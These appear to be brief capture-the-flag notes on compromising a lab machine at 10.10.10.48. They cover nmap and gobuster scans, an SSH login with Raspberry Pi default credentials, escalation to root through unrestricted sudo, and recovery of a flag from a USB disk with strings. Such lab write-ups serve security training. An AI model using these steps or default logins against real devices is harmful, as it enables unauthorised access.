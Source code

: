 10.10.10.48

## Enumeration
sudo nmap -sV -sC -O -v -Pn 10.10.10.48
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp open  domain  dnsmasq 2.76
80/tcp open  http    lighttpd 1.4.35

sudo gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirb/common.txt
/admin

X-Pi-hole

SSH default creds
pi 
raspberry

ssh pi@10.10.10.48

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

sudo su to root

find root flag

lsblk
* sdb disk /media/usbstick

cd /media/usb+stick

strings /dev/sdb
